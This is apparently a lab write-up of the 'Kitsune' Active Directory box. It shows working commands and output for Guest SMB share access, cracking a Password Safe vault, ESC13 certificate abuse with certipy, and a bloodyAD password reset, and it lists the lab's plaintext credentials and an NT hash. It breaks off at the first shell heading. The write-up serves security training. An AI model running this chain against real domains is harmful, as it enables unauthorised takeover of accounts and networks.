In this walkthrough, we will be compromising Kitsune, an easy-difficulty Active Directory lab from Hack Smarter Labs, with VPN access and no credentials. The Guest account can read a share holding a Password Safe database, which cracks to a set of credentials, one of which works for the `ranch` account. `ranch` can enroll in a certificate template flagged ESC13, whose issuance policy is linked to the `HelpDesk` group, so authenticating with the issued certificate lets us act as a HelpDesk member and reset `schlop`'s password. `schlop` sits in Remote Management Users, and a DPAPI-encrypted PowerShell credential in its Documents folder decrypts to `pebble`. `pebble` can read the gMSA password of `svc_gmsa$`, which belongs to Backup Operators, and that backup right reads the domain controller's registry hives to recover the Administrator hash, which dumps the NTDS and opens a shell on the domain controller.


Created by: [xjr](https://www.hacksmarter.org/courses/18750016-6295-476e-a697-50d7f892ccb8)

Let's get started.

## Objective

You have been hired to perform an internal pentest against the client's Domain Controller. Your task is to identify all vulnerabilities and (if possible) fully compromise the Domain.

Initial Access:

The client has provided you with VPN access to their environment, but no other information.

## Scope

**Target:** `10.0.25.42`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.0.25.42 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-10-25 20:19:11Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.kitsune.local
| Issuer: commonName=kitsune-DC01-CA/domainComponent=kitsune
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T21:14:40
| Not valid after:  2027-10-12T21:14:40
| MD5:     d44b d58b d60d de16 8e25 54c7 79fa 4ca9
| SHA-1:   1656 60d1 a7d3 9544 8b6c 3318 bedb 0f08 1cb8 cd04
| SHA-256: accf a633 3f9b 87f6 4015 eaef 64cc e082 cdb1 4f81 d6ff e4bb a7f4 c35c 736b e636
3389/tcp  open  ms-wbt-server syn-ack ttl 126
| ssl-cert: Subject: commonName=DC01.kitsune.local
| Issuer: commonName=DC01.kitsune.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-11T08:21:43
| Not valid after:  2027-04-12T08:21:43
| MD5:     b376 6ca1 5419 2d44 262e 0817 77ab 4bcf
| SHA-1:   0d55 4168 2732 d664 a4a3 77bd e2f6 fb9e 02bf dfae
| SHA-256: ea44 abd8 01e0 9f4b 3c37 fe15 2fca 4188 ce32 2f66 1f72 d496 8bb8 7b06 3aec 5ad4
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info: 
|   Target_Name: KITSUNE
|   NetBIOS_Domain_Name: KITSUNE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: kitsune.local
|   DNS_Computer_Name: DC01.kitsune.local
|   Product_Version: 10.0.26100
|_  System_Time: 2026-10-25T20:20:06+00:00
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49719/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49737/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49803/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner gives us the domain as `kitsune.local`, and the certificate and RDP NTLM info confirm the hostname as `DC01.kitsune.local`. We add both to `/etc/hosts` before continuing.

## SMB Enumeration

With no credentials, we try the Guest account against SMB.

```
nxc smb 10.0.25.42 -u 'Guest' -p '' --shares
```

```
SMB         10.0.25.42      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.25.42      445    DC01             [+] kitsune.local\Guest: 
SMB         10.0.25.42      445    DC01             [*] Enumerated shares
SMB         10.0.25.42      445    DC01             Share           Permissions     Remark
SMB         10.0.25.42      445    DC01             -----           -----------     ------
SMB         10.0.25.42      445    DC01             ADMIN$                          Remote Admin
SMB         10.0.25.42      445    DC01             C$                              Default share
SMB         10.0.25.42      445    DC01             Files           READ            Global file share
SMB         10.0.25.42      445    DC01             IPC$            READ            Remote IPC
SMB         10.0.25.42      445    DC01             NETLOGON                        Logon server share 
SMB         10.0.25.42      445    DC01             SYSVOL                          Logon server share 
```



*Guest authenticating to DC01 with READ on the Files share*

Guest gets in, with READ on a non-default `Files` share alongside the usual logon shares.

## Access as ranch

We connect to `Files` with smbclient.

```
smbclient //10.0.25.42/Files -U 'Guest%'
```

```
smb: \> dir
  .                                   D        0  Tue Oct 13 00:08:20 2026
  ..                                DHS        0  Thu Oct 15 06:49:47 2026
  10-11-Calendar_October.pdf          A     3190  Mon Oct 12 22:23:43 2026
  10-11-Financial_Report.pdf          A     4076  Mon Oct 12 22:23:49 2026
  10-11-Timesheet.pdf                 A     3854  Mon Oct 12 22:21:23 2026
  logins.psafe3                       A      840  Mon Oct 12 21:59:03 2026

                12974591 blocks of size 4096. 3395836 blocks available
smb: \> mget *
```



*smbclient connected to the Files share, listing and downloading every file*

The share holds a few documents and a `logins.psafe3` file. That extension is a Password Safe database, a vault that stores credentials under one master password. `pwsafe2john` extracts the master password hash so we can crack it offline.

```
pwsafe2john logins.psafe3 > pwsafe.hash
```

```
john pwsafe.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 327680 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hellokitty       (login)     
1g 0:00:00:20 DONE (2026-10-25 16:29) 0.04821g/s 197.4p/s 197.4c/s 197.4C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



*john recovering hellokitty from the Password Safe master password hash*

Cracked. We open the database with the Password Safe client and the recovered master password.

```
pwsafe logins.psafe3
```

The vault holds three credentials, grouped by purpose.

```
duo / admin     : I#zmE{z[n3HM
network / ranch : R@nch2026!
sql / root      : a%KlRhqbuRgL
```



*The Password Safe client open with the three stored credentials visible*

We test the credential grouped under network, `ranch`.

```
nxc smb 10.0.25.42 -u 'ranch' -p 'R@nch2026!' --shares
```

```
SMB         10.0.25.42      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.25.42      445    DC01             [+] kitsune.local\ranch:R@nch2026! 
SMB         10.0.25.42      445    DC01             [*] Enumerated shares
SMB         10.0.25.42      445    DC01             Share           Permissions     Remark
SMB         10.0.25.42      445    DC01             -----           -----------     ------
SMB         10.0.25.42      445    DC01             ADMIN$                          Remote Admin
SMB         10.0.25.42      445    DC01             C$                              Default share
SMB         10.0.25.42      445    DC01             Files           READ,WRITE      Global file share
SMB         10.0.25.42      445    DC01             IPC$            READ            Remote IPC
SMB         10.0.25.42      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.25.42      445    DC01             SYSVOL          READ            Logon server share 
```



*Validating ranch credentials with NetExec*

Valid, now with READ and WRITE on `Files`.

## BloodHound Enumeration

With a working credential, we collect BloodHound data. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.0.25.42 -u 'ranch' -p 'R@nch2026!' --bloodhound --collection All --dns-server 10.0.25.42
```

```
LDAP        10.0.25.42      389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:kitsune.local) (signing:Enforced) (channel binding:Never) 
LDAP        10.0.25.42      389    DC01             [+] kitsune.local\ranch:R@nch2026! 
LDAP        10.0.25.42      389    DC01             Resolved collection methods: localadmin, psremote, session, objectprops, rdp, container, trusts, acl, dcom, group
LDAP        10.0.25.42      389    DC01             Done in 0M 18S
LDAP        10.0.25.42      389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.0.25.42_2026-10-25_164558_bloodhound.zip
```

We import the data and mark `ranch` as owned. Its outbound object control shows nothing that moves the chain forward, so we turn to AD CS.

## Certipy Enumeration

Any authenticated account can run certipy find, and `-vulnerable` reports the templates `ranch` can abuse.

```
certipy-ad find -u 'ranch@kitsune.local' -p 'R@nch2026!' -dc-ip 10.0.25.42 -vulnerable -stdout
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 16 issuance policies
[*] Found 1 OID linked to a template
[*] Retrieving CA configuration for 'kitsune-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'kitsune-DC01-CA'
[*] Checking web enrollment for CA 'kitsune-DC01-CA' @ 'DC01.kitsune.local'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : kitsune-DC01-CA
    DNS Name                            : DC01.kitsune.local
    Certificate Subject                 : CN=kitsune-DC01-CA, DC=kitsune, DC=local
    Certificate Serial Number           : 23E87814E94E648848405CFD9514BD14
    Certificate Validity Start          : 2026-10-12 21:14:31+00:00
    Certificate Validity End            : 2125-10-12 21:24:31+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : KITSUNE.LOCAL\Administrators
      Access Rights
        ManageCa                        : KITSUNE.LOCAL\Administrators
                                          KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        ManageCertificates              : KITSUNE.LOCAL\Administrators
                                          KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        Enroll                          : KITSUNE.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : Kitsune-User
    Display Name                        : Kitsune-User
    Certificate Authorities             : kitsune-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Template Created                    : 2026-10-12T22:12:00+00:00
    Template Last Modified              : 2026-10-13T00:52:56+00:00
    Issuance Policies                   : 1.3.6.1.4.1.311.21.8.10863307.14988779.16010669.3757508.10421200.134.6077557.15214621
    Linked Groups                       : CN=HelpDesk,CN=Users,DC=kitsune,DC=local
    Permissions
      Enrollment Permissions
        Enrollment Rights               : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Domain Users
                                          KITSUNE.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : KITSUNE.LOCAL\Administrator
        Full Control Principals         : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        Write Owner Principals          : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        Write Dacl Principals           : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Enterprise Admins
        Write Property Enroll           : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Domain Users
                                          KITSUNE.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : KITSUNE.LOCAL\Domain Users
    [!] Vulnerabilities
      ESC13                             : Template allows client authentication and issuance policy is linked to group 'CN=HelpDesk,CN=Users,DC=kitsune,DC=local'.
```



*Certipy flagging ESC13 on the Kitsune-User template, linked to the HelpDesk group*

Certipy flags the `Kitsune-User` template as vulnerable to ESC13. ESC13 abuses a template that allows client authentication and whose issuance policy is linked to an Active Directory group through an OID group link. Any principal with enrollment rights can request a certificate from it, and because that issuance policy carries the group link, authenticating with the issued certificate grants access as a member of the linked group without ever being added to it. Here the linked group is `HelpDesk`, and `ranch` holds enrollment rights through Domain Users.

## Access as schlop

We request the certificate as `ranch`.

```
certipy-ad req -u 'ranch@kitsune.local' -p 'R@nch2026!' -dc-ip 10.0.25.42 -target 'DC01.kitsune.local' -ca 'kitsune-DC01-CA' -template 'Kitsune-User'
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 19
[-] Got error while requesting certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
Would you like to save the private key? (y/N): 
```

The request fails on `CERTSRV_E_KEY_LENGTH`. The template sets a 4096-bit minimum key length, and Certipy defaults to a 2048-bit key, so we set `-key-size 4096` to match.

```
certipy-ad req -u 'ranch@kitsune.local' -p 'R@nch2026!' -dc-ip 10.0.25.42 -target 'DC01.kitsune.local' -ca 'kitsune-DC01-CA' -template 'Kitsune-User' -key-size 4096
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 23
[*] Successfully requested certificate
[*] Got certificate with UPN 'ranch@kitsune.local'
[*] Certificate object SID is 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Saving certificate and private key to 'ranch.pfx'
[*] Wrote certificate and private key to 'ranch.pfx'
```



*Certipy requesting the certificate with -key-size 4096 and writing ranch.pfx*

Authenticating with the certificate over PKINIT, the Kerberos extension that lets a certificate stand in for a password, returns a ticket-granting ticket whose PAC carries the HelpDesk membership the issuance policy links, saved to a credential cache.

```
certipy-ad auth -pfx 'ranch.pfx' -dc-ip 10.0.25.42
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ranch@kitsune.local'
[*]     Security Extension SID: 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Using principal: 'ranch@kitsune.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ranch.ccache'
[*] Wrote credential cache to 'ranch.ccache'
[*] Trying to retrieve NT hash for 'ranch'
[*] Got hash for 'ranch@kitsune.local': aad3b435b51404eeaad3b435b51404ee:47d29308446189faa2acec65586963c1
```



*Certipy authenticating with ranch.pfx and saving the credential cache*

We point `KRB5CCNAME` at that cache so the next tool uses the ticket.

```
export KRB5CCNAME=ranch.ccache
```

In BloodHound, the `HelpDesk` group holds `GenericAll` over `schlop`, and our ticket now carries HelpDesk membership, so we can reset that account's password.



*BloodHound GenericAll: HelpDesk over schlop*

bloodyAD writes Active Directory object attributes from the command line, and `set password` resets the account to a value we choose.

```
bloodyad -d kitsune.local -u ranch --host DC01.kitsune.local -k set password 'schlop' '0xB1rdWasHere1337!'
```

```
[+] Password changed successfully!
```

We validate the new password.

```
nxc smb 10.0.25.42 -u 'schlop' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.0.25.42      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.25.42      445    DC01             [+] kitsune.local\schlop:0xB1rdWasHere1337! 
SMB         10.0.25.42      445    DC01             [*] Enumerated shares
SMB         10.0.25.42      445    DC01             Share           Permissions     Remark
SMB         10.0.25.42      445    DC01             -----           -----------     ------
SMB         10.0.25.42      445    DC01             ADMIN$                          Remote Admin
SMB         10.0.25.42      445    DC01             C$                              Default share
SMB         10.0.25.42      445    DC01             Files           READ,WRITE      Global file share
SMB         10.0.25.42      445    DC01             IPC$            READ            Remote IPC
SMB         10.0.25.42      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.25.42      445    DC01             SYSVOL          READ            Logon server share 
```



*Validating schlop credentials with NetExec*

The new password works.

## Shell as schlop (user.txt)

